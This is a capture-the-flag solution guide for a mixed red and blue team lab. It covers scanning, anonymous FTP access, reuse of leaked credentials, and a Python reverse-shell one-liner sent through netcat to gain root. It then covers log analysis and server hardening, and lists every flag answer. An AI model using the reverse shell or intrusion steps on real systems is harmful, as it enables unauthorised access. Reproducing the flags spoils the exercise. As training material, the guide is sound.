# The Purple Road

This solution guide provides challengers with a walkthrough of a new digital exhibit at the Palace of Versailles (FR).

## Overview
This challenge is a mixture of Red and Blue team tasks ranging from log analysis to service exploitation.

## Red Team

### Task/Question 1
***Gain access to the fileserver.***

#### Steps
1. In the `Getting Started` section of the challenge description, the red team is tasked with discovering the `fileserver` for exploitation. We need to determine if the host is up and its logical location.
To do this, we can use `nslookup` and `ping` which will give us its IP as well as confirm that the asset is up (respectively):

**Command** (ping):

```bash
ping -c 4 fileserver
```

**Command** (nslookup):

```bash
nslookup fileserver
```

The output of these commands can be found below:



2. Now that we know the server is up, let us use the tool `nmap` which will allow us to enumerate the services and ports open on the fileserver. Use the following command to get started: 

```bash
sudo nmap -sTV -f -vv fileserver
```

<details><summary>💡 Click to learn why did we choose this syntax.</summary>
NMAP has various functions to assert the posture of ports and services on an asset. This `discovery` scan used the following flags:

* -sT - TCP Connect scan. Performs a full TCP three-way handshake for each port, making it reliable in environments where raw socket scans (e.g., SYN scans) are restricted.
* -sV - Service version detection. Probes open ports to identify the service and estimate the running software version.
* -f - fragment packets (evasion/optional)
* -vv - verbose output  

When combined, we get output which shows us not only what ports and services are available but what their status is (open/closed) and what version of software NMAP estimates a discovered service to be.

💡 NOTE: We combined `-sT` and `-sV` to create `-sTV` and initiate both types of scans.
</details>


**Output**



3. The previous scan tells us that ports `21` and `22` are available for exploration. Given the naming of the server, we will begin our attack by using the FTP or `File Transfer Protocol` and attempt to exploit a common vulnerability in FTP servers (anonymous login):

**Command** 

```bash
ftp fileserver
# Username anonymous with no password
```

**Output**


4. We can use options such as HELP to help us better understand our abilities as an `anonymous` user on the server:

**Command**

```bash
help
```

**Output**

```bash
┌──(user㉿85a2da107e67)-[~]
└─$ ftp fileserver
Connected to fileserver.
220 Welcome to the file server.
Name (fileserver:user): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> help
Commands may be abbreviated.  Commands are:

!               epsv6           mget            preserve        sendport
$               exit            mkdir           progress        set
account         features        mls             prompt          site
append          fget            mlsd            proxy           size
ascii           form            mlst            put             sndbuf
bell            ftp             mode            pwd             status
binary          gate            modtime         quit            struct
bye             get             more            quote           sunique
case            glob            mput            rate            system
cd              hash            mreget          rcvbuf          tenex
cdup            help            msend           recv            throttle
chmod           idle            newer           reget           trace
close           image           nlist           remopts         type
cr              lcd             nmap            rename          umask
debug           less            ntrans          reset           unset
delete          lpage           open            restart         usage
dir             lpwd            page            rhelp           user
disconnect      ls              passive         rmdir           verbose
edit            macdef          pdir            rstatus         xferbuf
epsv            mdelete         pls             runique         ?
epsv4           mdir            pmlsd           send
```

5. Running the `ls` command we find a directory called `token` which may contain what we need to confirm completion of this task:

**Command**

```bash
ls
```

**Output**

```bash
ftp> ls
229 Entering Extended Passive Mode (|||19994|)
150 Here comes the directory listing.
drwxr-xr-x    1 0        0            4096 Dec 16 16:50 token
drwx-wx-wx    2 65534    65534        4096 Dec 16 16:50 upload
226 Directory send OK.
```

6. Next, navigate into the folder with the `cd` command to find `token.txt` which harbors `token 1`:

**Command**

```bash
cd token
ls
get token.txt
```

**Output**

```bash
ftp> cd token
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||64769|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              45 Jan 15 21:38 token.txt
226 Directory send OK.
ftp> get token.txt
local: token.txt remote: token.txt
229 Entering Extended Passive Mode (|||23429|)
150 Opening BINARY mode data connection for token.txt (45 bytes).
100% |******************************************|    45       74.10 KiB/s    00:00 ETA
226 Transfer complete.
45 bytes received in 00:00 (61.37 KiB/s)
```

Visual version:




7. As we've now pulled the token.txt file down to our local system, we can simply type the following command to read the token file:

**Command**

```bash
cat token.txt
```

**Output**

```bash
┌──(user㉿85a2da107e67)-[~]
└─$ cat token.txt                                                                      
user:superpass


PCCC{fileserver_2E_6119}
```

💡 Keep note of the `credentials` (user:superpass) that are presented in this file, we can use this to access the hidden server found in the next tasking.

### Answer
In our instance of the challenge, the answer to this question/task is PCCC{fileserver_2E_6119}. 


## Task/Question 2
***Gain root access to a hidden server.***

#### Steps

1. The task requests us to discover a `hidden` server. As a result, the next logical step we can take is to look at what networks we are **already** connected to. We can do this with the `ip` command which will provide us with pertinent interface information.  First, let's use the credentials we gained earlier to ssh into the fileserver: 

```bash
ssh user@fileserver #password: superpass
```




**Command**

```bash
ip a
```

**Output**


2. Now that we know the subnet ranges available to us, let's start to enumerate the first network using the following command:

**Command**

```bash
nmap 172.19.0.* # your network IP might be different
```

We end up finding an unlisted server at `172.19.0.2` with TCP ports `22` (SSH) and `8080` open:

**Output**



3. Now that we have the location of the hidden server and know that TCP ports `22` and `8080` are open, we can first attempt to use the tool `netcat`, or `nc` for short, to access port `8080`:

**Command**

```bash
nc 172.19.0.2 8080 #your IP may be different
```

**Output**



It seems we have a prompt to send a `python script` through; interesting.

4. Next, we'll create a `reverse shell handler` and execute our payload in two different terminals:

**Terminal 1**
In a separate terminal `ssh`'d in the fileserver: 

**Command**

```bash
nc -lvnp 4444
```

**Output**



We will keep this connection open; let's open another terminal to start the reverse shell connection.

**Terminal 2**

With the previous handler open, let's run the following command:

**Command**

```bash
(echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("fileserver",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])'; echo EOF) | nc <IP> 8080
```

Once executed, you will get a root shell on the nc terminal:

**Output**





5. With all of this complete, we can now find and read the token using this terminal session (this will be unique to you):

**Command**

```bash
ls token*
cat token.txt
```

**Output**


### Answer

The token retrieved in this task is `PCCC{hidden_86_8398}`.


**This completes the Solution Guide for Red Team portion of the challenge. We will now move on to the Blue Team's objective set.**

## Blue Team

## Task 3
***Objective: Blue Team Task Log Analysis***

## Question 3.1
***Which user successfully logged in from 172.19.0.5 on port 2222?***

##### Steps
1. Navigate to the `grader` site using a web browser at `http://grader` and you will get a prompt for 4 questions, as well as a configuration check button:



2. Login to the `logserver` via `ssh` with the provided credentials and locate the logs at `/var/log/`:

**Command**

```bash
cd /var/log/
ls
```

**Output**



3. We can now begin our investigation and answer this question. Using the following command yields that `sudouser` was the user which logged in from 172.19.0.5 on port 2222:

**Command**

```bash
grep 'Accepted password' log_*.log
```

**Output**



4. When submitted to the `grader`, we receive the token for this question. Please note, that this will be the process to obtain tokens going forward (use of the grader system):



### Answer

The answer is `PCCC{q1_DC_1328}`.

## Question 3.2
***Which command did the attacker run with `sudo`? (example: /bin/**Command** /file/arg)***

##### Steps
1. Using the following command, we find that `/usr/bin/nano /etc/passwd` is the command that was run by the attacker using sudo:

**Command**

```bash
grep 'sudo:' log_*.log
```

**Output**




2. Next, input `/usr/bin/nano /etc/passwd` in the 3.2 section of the grader to retrieve the token.

### Answer

The answer is `PCCC{q2_59_9454}`.

## Question 3.3
***Where did the attacker connect to C2 from? (example: example.com:1234)***

##### Steps
1. Using the following command, we find the answer is `evil.corp.com:4444`:

**Command**

```bash
grep 'connected to C2' log_*.log
```

**Output**



2. Next, input `evil.corp.com:4444` in the 3.3 section of the grader to retrieve the token.

### Answer

The answer is `PCCC{q3_4B_8729}`

## Question 3.4
***Which CVE was used to perform privilege escalation? (example: CVE-999-9999).***

##### Steps
1 Running the following command reveals that `CVE-2021-4034` was the vulnerability exploited in this part of the challenge:

**Command**

```bash
grep 'escalated privileges' log_*.log
```

**Output**



2. Next, input `CVE-2021-4034` in the 3.3 section of the grader to retrieve the token.

### Answer

The answer is `PCCC{q4_28_6916}`

## Question 3.5
***What is the value of the token in the logs?***

##### Steps
1. As we know the format of the tokens from previous retrievals, we can simply search the logs for the stub area of the token (`PCCC`):

**Command**

```bash
grep -i 'PCCC' log_*.log
```

**Output**



### Answer

The answer, in this instance, is `PCCC{log_CD_3651}`.

## Task 4
***Objective: Harden the fileserver.***

## Question 4.1
***Task: Disable the misconfiguration that allowed the Red Team to gain initial access.***

#### Steps
1. First, let's `ssh` into `fileserver` using the discovered credentials from `task 1`:

**Command**

```bash
ssh user@fileserver
```

2. Next, let's disable anonymous FTP with the following command:

**Command**

```bash
sudo sed -i 's/^anonymous_enable=.*/anonymous_enable=NO/' /etc/vsftpd.conf
sudo service vsftpd restart
```

**Output**

```bash
user@593e1c3db300:~$ sudo sed -i 's/^anonymous_enable=.*/anonymous_enable=NO/' /etc/vsftpd.conf
[sudo] password for user: 
user@593e1c3db300:~$ 
```

Please note that you will not get any feedback from the terminal.

Visual:



3. After this, we'll restart the vsftpd service to refresh its configuration with our new changes in tow. We can accomplish this with the following command:

**Command**

```bash
sudo service vsftpd restart
```

**Output**



4. We can then call the `grader` to check the fileserver to see if Anonymous FTP is disabled by first navigating to `http://grader` and clicking on the `Submit All (Run Checks)` button towards the bottom of the page:



As we can see by the output, we now have a token.

### Answer

The answer to this question is `PCCC{conf1_01_8770}`.

## Question 4.2
***Task: Configure `fail2ban` to protect the `ftp` service***

#### Steps

1. While still on the server, we can implement Fail2ban to protect vsftpd using the following Command

**Command**

```bash
sudo bash -c 'cat > /etc/fail2ban/jail.d/vsftpd.conf' <<EOF
[vsftpd]
enabled = true
port = ftp
filter = vsftpd
logpath = /var/log/vsftpd.log
EOF

sudo service fail2ban restart
```

You will receive the following output:



<details><summary>💡 Click to learn why Fail2Ban failed</summary>
Fail2Ban relies on log files to detect abuse. This jail points to /var/log/vsftpd.log, but in this environment that file does not exist (or vsftpd is not writing to it). When a jail’s logpath is missing, Fail2Ban refuses to start to avoid running with invalid monitoring targets.
</details>

2. We can workaround this error by simply removing the Debian config from `fail2ban's` configuration:

**Command**

```bash
sudo rm /etc/fail2ban/jail.d/defaults-debian.conf
sudo service fail2ban restart
```

<details><summary>💡 Click to learn why we use this workaround</summary>
In a real deployment, the correct fix would be to configure vsftpd to log to a known location (or change the jail to monitor an existing auth log). For this challenge, the grader primarily checks that Fail2Ban is running and the vsftpd jail is enabled. Removing the Debian defaults jail prevents startup errors in this lab environment so Fail2Ban can start and the vsftpd jail can be detected by the grader.
</details>

**Output**



3. We can now go back to the `grader` and click `Submit All (Run Checks)` again to receive the token (if we configured this correctly):


### Answer

The answer to this question is `PCCC{conf2_67_1641}`.

## Question 4.3
***Task: Ensure no world-writable files in `/home`.***

#### Steps

1.  Let's start by removing world-writable files from `/home` as we are instructed to using the following command:

**Command**

```bash
sudo find /home -type f -perm -0002 -exec chmod o-w {} \;
```

**Output**



2. When complete, we can go back to the `grader` using the same submission button as the other two 4.x tasks to receive the final token:


### Answer

The answer to this question is `PCCC{conf3_62_4986}`.


**This completes the Solution Guide for this challenge.**